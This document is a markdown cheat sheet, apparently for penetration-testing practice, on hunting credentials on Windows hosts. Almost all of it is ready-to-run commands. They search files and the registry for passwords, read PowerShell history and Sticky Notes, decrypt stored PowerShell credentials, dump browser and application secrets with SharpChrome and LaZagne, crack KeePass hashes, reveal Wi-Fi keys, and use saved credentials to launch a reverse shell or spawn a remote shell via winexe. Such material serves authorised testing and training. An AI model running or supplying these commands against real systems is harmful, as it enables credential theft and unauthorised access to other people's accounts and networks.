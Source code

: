 # ✅ Windows Credential Hunting (Cheat Sheet)


- [ ] kdbx search
---

## 🎯 Quick Wins
- [ ] **Find Plaintext Credentials in Config Files** → *.config, *.xml, *.ini, *.txt
- [ ] **Check PowerShell History** → ConsoleHost_history.txt
- [ ] **Look for Unattend Files** → unattend.xml, sysprep.inf
- [ ] **Search Chrome Dictionary Files** → Custom Dictionary.txt
- [ ] **Grab Stored PowerShell Credentials** → Export-Clixml files
- [ ] **Inspect Sticky Notes DB** → plum.sqlite
- [ ] **Enumerate Saved Creds with cmdkey** → /list
- [ ] **Dump Browser Passwords** → SharpChrome
- [ ] **Run LaZagne for Multi-App Credential Dump**
- [ ] **Find KeePass DB Files** → *.kdbx
- [ ] **Enumerate AutoLogon in Registry**
- [ ] **Recover Wi-Fi Passwords** → netsh wlan show profile key=clear

---

##  ✅ Hidden in Plain View

```c
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

```


## ✅ File & Config Searches

```c
.\winPEASany.exe quiet cmd searchfast filesinfo
```

```powershell
# Search for credentials in common config/text files
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml

# Recursive search for "password"
findstr /si password *.*

# PowerShell alternative
Select-String -Path C:\Users\*\Documents\*.txt -Pattern "password"

# Search for common credential-related file names
dir /S /B *pass*.txt == *pass*.xml == *cred* == *vnc* == *.config*
where /R C:\ *.config

dir /s *pass* == *.config
findstr /si password *.xml *.ini *.txt
```
## ✅ IIS Config Files (Example)
```c
# Check IIS default web.config
C:\inetpub\wwwroot\web.config
```
## ✅ Chrome Dictionary Files
```c
# Look for saved passwords in Chrome's Custom Dictionary
gc 'C:\Users\<user>\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String "password"
```
## ✅ Unattended Installation Files
```c
# Common location
C:\Windows\Panther\unattend.xml
# Look for <Password> tags in XML
```
## ✅ PowerShell History
```c
# Default location
C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# Enumerate all users' history
foreach($user in ((ls C:\users).fullname)){
  cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue
}
```
## ✅ PowerShell Stored Credentials
```c
# Load and decrypt saved credentials
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
$credential.GetNetworkCredential().Username
$credential.GetNetworkCredential().Password
```
## ✅ Sticky Notes DB
```c
# Location
C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite

# Query notes for secrets
Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note"
```
## ✅ Saved Credentials (cmdkey)

```c
# 1.Use winPEAS to check for saved credentials:
> .\winPEASany.exe quiet cmd windowscreds

# 2.It appears that saved credentials for the admin user exist.

# 3.We can verify this manually using the following command:
> cmdkey /list

# 4.If the saved credentials aren’t present, run the following script to refresh the credential:
> C:\PrivEsc\savecred.bat

# 5.We can use the saved credential to run any command as the admin user. Start a listener on Kali and run the reverse shell executable:
> runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

```c
cmdkey /list
# Example:
# Target: TERMSRV/SQL01
# User: inlanefreight\bob
```
## ✅ Run as Saved Credential
```c
runas /savecred /user:DOMAIN\username "COMMAND"
```
## ✅ Browser Credentials
```c
# Use SharpChrome to dump Chrome saved logins
SharpChrome.exe logins /unprotect
```
## ✅ KeePass Hash Extraction
```c
# Convert KeePass DB to hash
keepass2john.py file.kdbx > hash.txt

# Crack with hashcat
hashcat -m 13400 hash.txt rockyou.txt
```
## ✅ LaZagne – Multi-App Credential Dump
```c
lazagne.exe all
# Dumps creds from browsers, chat apps, RDP, WinSCP, etc.
```
## ✅ SessionGopher – Saved RDP/SSH Credentials
```c
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target localhost
```

## ✅ Searching the Registry for Passwords

```c
# The following commands will search the registry for keys and values that contain “password”
> reg query HKLM /f password /t REG_SZ /s
> reg query HKCU /f password /t REG_SZ /s
# This usually generates a lot of results, so often it is more fruitful to look in known locations
```

```c
# 1.Use winPEAS to check common password locations:
> .\winPEASany.exe quiet filesinfo userinfo
# (the final checks will take a long time to complete)

# 2.The results show both AutoLogon credentials and Putty session credentials for the admin user (admin/password123).

# 3.We can verify these manually:
> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s

# 4.On Kali, we can use the winexe command to spawn a shell using these credentials:

# winexe -U 'admin%password123' //192.168.1.22 cmd.exe
```

## ✅ Registry – Windows AutoLogon
```c
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
# Look for:
# AutoAdminLogon, DefaultUserName, DefaultPassword
```
## ✅ Registry – PuTTY Sessions
```c
reg query "HKCU\SOFTWARE\SimonTatham\PuTTY\Sessions\<SESSION NAME>"
# Look for ProxyUsername, ProxyPassword
```
## ✅ Wi-Fi Passwords
```c
netsh wlan show profile
netsh wlan show profile <SSID> key=clear
```
## ✅ Interesting Files to Check
```c
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
C:\ProgramData\Configs\*
%USERPROFILE%\ntuser.dat
```
